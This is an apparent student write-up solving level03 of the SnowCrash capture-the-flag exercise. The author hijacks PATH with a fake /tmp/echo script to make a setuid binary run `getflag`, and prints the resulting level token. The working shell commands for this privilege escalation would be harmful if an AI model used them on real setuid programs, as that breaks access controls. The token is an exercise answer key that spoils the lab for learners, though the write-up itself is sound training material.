

# level03
_The ritual_ :
- `pwd`: `/home/user/level03`
- `id`: `uid=2003(level03) gid=2003(level03) groups=2003(level03),100(users)`
- `ls -la`:
```sh
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```
- `find / -user flag02 2> /dev/null`: **A LOT OF USELESS THINGS**
It show all the `/proc` folder.

_Oh... A binary file... **RUN IT**_
```sh
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
_Okay let's exploit you !_
- A binary file can't be read by a human, but there is some hint in it anyway, and the command `strings` isolate them :
```sh
level03@SnowCrash:~$ strings level03
/lib/ld-linux.so.2
KT{K
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
/usr/bin/env echo Exploit me
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
/home/user/level03
/usr/include/i386-linux-gnu/bits
/usr/include/i386-linux-gnu/sys
level03.c
types.h
types.h
long long int
__uid_t
envp
/home/user/level03/level03.c
long long unsigned int
setresuid
setresgid
unsigned char
GNU C 4.6.3
argc
__gid_t
short unsigned int
main
short int
argv
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.ctors
.dtors
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
.debug_aranges
.debug_info
.debug_abbrev
.debug_line
.debug_str
.debug_loc
crtstuff.c
__CTOR_LIST__
__DTOR_LIST__
__JCR_LIST__
__do_global_dtors_aux
completed.6159
dtor_idx.6161
frame_dummy
__CTOR_END__
__FRAME_END__
__JCR_END__
__do_global_ctors_aux
level03.c
__init_array_end
_DYNAMIC
__init_array_start
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
setresuid@@GLIBC_2.0
__i686.get_pc_thunk.bx
data_start
_edata
_fini
geteuid@@GLIBC_2.0
getegid@@GLIBC_2.0
__DTOR_END__
__data_start
system@@GLIBC_2.0
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_start_main@@GLIBC_2.0
__libc_csu_init
_end
_start
_fp_hw
__bss_start
main
_Jv_RegisterClasses
setresgid@@GLIBC_2.0
_init
level03@SnowCrash:~$
```

- Okay, we can see these lines : `system` - `/usr/bin/env echo Exploit me`
-> In the binary we can see all function used and there arguments
- `system` execute a command line the terminal
- `/usr/bin/env echo Exploit me` can be how the output is execut.

_I think it's time to discover how to decompile a file_
- Let's tranfer this file in my machine :
```sh
➜  ~ scp -P 4242 level03@127.0.0.1:/home/user/level03/level03 /Users/mayoub/Desktop/
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::2577:d9d0:9935:9a6 fec0::5054:ff:fe12:3456
level03@127.0.0.1's password:
level03                                                                                                                                                                   100% 8302   403.5KB/s   00:00
➜  ~
```
- And let's install [ghidra](https://ghidra-sre.org/)

**OKAY, the file is decompiled** :

## YES ! I had just !

_So, what I have supposed to do now ?_

- We can "intercept" the command `echo` by adding a folder in the `PATH`, but wich one ? A folder for which I have the rights... **`/tmp`** ?
```sh
level03@SnowCrash:~$ export PATH="/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
```
If I create a file named "echo" in `/tmp` with a command in it, what happened ?
```sh
level03@SnowCrash:~$ echo "ls" > /tmp/echo
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
- Nothing happened... maybe the file has not the good permissions ?
```sh
level03@SnowCrash:~$ chmod 777 /tmp/echo
```
- Let's try again :
```sh
level03@SnowCrash:~$ ./level03
ls: cannot open directory .: Permission denied
level03@SnowCrash:~$
```
### SUCCESS, SOMETHING HAPPENED
_What we can do to this program ?... Which command can help us to complet this level ??? Mmmmhhhh..._
```sh
level03@SnowCrash:~$ echo "getflag" > /tmp/echo
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$
```
# YEEEEEEEESSS
Let's login to `level04` directly :
```sh
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```
# level03 complet !
